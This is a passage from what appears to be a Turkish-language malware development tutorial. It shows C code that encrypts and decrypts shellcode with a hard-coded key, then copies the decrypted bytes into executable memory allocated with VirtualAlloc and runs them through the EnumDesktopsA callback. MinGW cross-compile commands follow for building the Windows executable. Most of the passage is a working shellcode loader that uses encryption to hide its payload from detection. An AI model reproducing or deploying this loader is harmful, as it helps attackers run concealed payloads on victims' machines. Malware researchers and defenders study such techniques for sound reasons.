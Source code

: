 ```cpp

  printf("original shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  uint8_t key[8] = { 0x12, 0x34, 0x56, 0x78, 0x9A, 0xBC, 0xDE, 0xF0 };

  dfc_encrypt_shellcode(padded, pad_len, key);

  printf("encrypted shellcode:\n");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  dfc_decrypt_shellcode(padded, pad_len, key);

  printf("decrypted shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  // allocate and execute decrypted shellcode
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```

Her zamanki gibi, doğruluk kontrolü için bazı çıktı mantıkları eklenmiştir ve yük [EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) aracılığıyla çalıştırılmaktadır.

### demo

Hadi her şeyi aksiyonda görelim. Derleyelim (benim `linux` makinemde):    

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc
```

![kriptografi](./images/137/2024-11-10_01-49.png){width="80%"}      

